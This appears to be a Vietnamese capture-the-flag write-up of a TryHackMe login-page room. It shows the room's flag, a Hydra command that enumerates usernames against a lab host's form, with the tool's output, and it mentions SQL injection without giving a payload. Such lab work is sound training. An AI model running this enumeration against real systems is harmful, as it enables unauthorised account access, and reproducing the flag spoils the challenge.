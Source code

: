 ```yaml
---
template: overrides/blog.html
icon: material/plus-circle
title: Name
description: >
  
search:
  exclude: true
hide:
  - feedback

tags:
  - THM-Room 
  - Privilege Escalation
---
```


# __Name__

Room at https://tryhackme.com/room/lessonlearned

---

??? question "List of the questions solved"

    Question: name
    > Ans: THM{aab02c6b76bb752456a54c80c2d6fb1e}

## __Pentest scenario__

Host: 10.10.235.161

Bài này đề bài đã nêu rõ ràng vậy rồi, ta sẽ focus vào trang login.

### __Reconnaissance__

Sau một vài thao tác với trang web, ta có 1 vài nhận xét:

- Nếu sai username và password thì sẽ xuất ra thông báo "Invalid username and password."
- Có thể có lỗ hỏng SQLi

    ??? tip "Hint"
    ![](image-1.png)

```ps1 title="Hydra Brute force"
└─$ hydra -L $PASS_WORD -p a 10.10.235.161 http-post-form "/index.php:username=^USER^&password=^PASS^:F=Invalid username and password."             
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2023-09-02 14:21:45
[DATA] max 16 tasks per 1 server, overall 16 tasks, 8295455 login tries (l:8295455/p:1), ~518466 tries per task
[DATA] attacking http-post-form://10.10.235.161:80/index.php:username=^USER^&password=^PASS^:F=Invalid username and password.
[80][http-post-form] host: 10.10.235.161   login: martin   password: a
[80][http-post-form] host: 10.10.235.161   login: patrick   password: a
[80][http-post-form] host: 10.10.235.161   login: stuart   password: a
[80][http-post-form] host: 10.10.235.161   login: marcus   password: a
[80][http-post-form] host: 10.10.235.161   login: kelly   password: a
[80][http-post-form] host: 10.10.235.161   login: arnold   password: a
[80][http-post-form] host: 10.10.235.161   login: Martin   password: a
[STATUS] 642.00 tries/min, 642 tries in 00:01h, 8294813 to do in 215:21h, 16 active
[80][http-post-form] host: 10.10.235.161   login: karen   password: a
[80][http-post-form] host: 10.10.235.161   login: Patrick   password: a
[STATUS] 680.67 tries/min, 2042 tries in 00:03h, 8293413 to do in 203:05h, 16 active
[80][http-post-form] host: 10.10.235.161   login: Marcus   password: a
[80][http-post-form] host: 10.10.235.161   login: sophia   password: a
[80][http-post-form] host: 10.10.235.161   login: Stuart   password: a
[80][http-post-form] host: 10.10.235.161   login: PATRICK   password: a
[80][http-post-form] host: 10.10.235.161   login: Kelly   password: a
[STATUS] 647.71 tries/min, 4534 tries in 00:07h, 8290921 to do in 213:21h, 16 active
[80][http-post-form] host: 10.10.235.161   login: Karen   password: a
[80][http-post-form] host: 10.10.235.161   login: veronica   password: a
[80][http-post-form] host: 10.10.235.161   login: Arnold   password: a
[80][http-post-form] host: 10.10.235.161   login: naomi   password: a
[80][http-post-form] host: 10.10.235.161   login: MARTIN   password: a
[STATUS] 652.20 tries/min, 9783 tries in 00:15h, 8285672 to do in 211:45h, 16 active
```

Như hình trên, ta đã tìm được rất nhiều username (còn nhiều hơn thế nữa,...) và thông báo lỗi sẽ là "Invalid password.". Tôi có brute force password 1 user thì thấy việc tìm luôn cả password là điều không khả thi, có thể challenge này chuyên về SQLi khi có username. Wow, và tôi đã thử và có flag như hình bên dưới.

![](image.png)

## __What we learned__

1. Hydra
2. SQLi